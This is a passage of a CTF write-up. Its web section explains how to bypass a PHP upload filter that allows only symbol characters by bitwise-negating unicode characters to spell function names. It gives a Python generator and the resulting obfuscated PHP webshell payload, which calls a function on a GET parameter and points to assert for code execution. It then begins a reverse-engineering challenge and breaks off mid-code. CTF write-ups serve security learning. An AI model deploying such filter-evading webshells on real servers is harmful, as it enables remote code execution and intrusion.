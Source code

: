 
In this problem, you can upload filename with extension `php`. However, there are some constraint: except for the first 5 characters, the php shell can only contain `$().;=[]_~\n`.

Because the php [short tag](http://php.net/manual/en/language.basic-syntax.phptags.php) is not enabled, the first 5 characters have to be `<?php`. However, how to create a php shell with `$().;=[]_~\n` and unicode characters?

After a few tries, and taking advantage of PHP, I can only create strings "Array", "1", which is definitely not enough to create a webshell.

The key point is:
```php
php > var_dump(臺[1]);
PHP Warning:  Use of undefined constant 臺 - assumed '臺' (this will throw an Error in a future version of PHP) in php shell code on line 1
string(1) "�"
```
Although the unicode character 臺 (which means Tai in Chinese) is not put in quotes, it can still be interpreted. Thank you, PHP!

But the unicode character doesn't contain any ASCII character in case of character set confusion. We can utilize `~` to bypass this.

Here is a PoC. The challenge server uses PHP 5, so `assert` can be used as a dynamic function to RCE.

```python
#!/usr/bin/env python3
# Python 3.6.5

def toUnicode(c):
    byte = 255-ord(c)
    return bytes([0xe4, byte, 0x80]).decode()

print('$_=_==_;') # True, because NULL == NULL
print('$__=' + '.'.join([f'~{toUnicode(c)}[$_]' for c in 'printf']) + ';') # string(4) "printf"
print('$___=' + '.'.join([f'~{toUnicode(c)}[$_]' for c in '_GET']) + ';') # string(4) "_GET"
print(f'$__($$___[$_]);') # $$___[$_] means $_GET["1"]
```

```php
$_=_==_;
$__=~䏀[$_].~䍀[$_].~䖀[$_].~䑀[$_].~䋀[$_].~䙀[$_];
$___=~䠀[$_].~一[$_].~亀[$_].~䫀[$_];
$__($$___[$_]); // printf($_GET["1"]);
```

## rev
### python (sasdf)
We construct the pyc from `opcode.txt` and then decompile with `uncompyle6` (If you are interestring in how to construct pyc, google for types.CodeType and marshal), and then we have following code:
```python
from ctypes import *
from libnum import n2s, s2n
import binascii as b
key = '********'

def aaaa(key):
    a = lambda a: b.hexlify(a)
    return ('').join((a(i) for i in key))

def aa(key):
    a = cdll.LoadLibrary('./a').a
    a(key)

def aaaaa(a):
```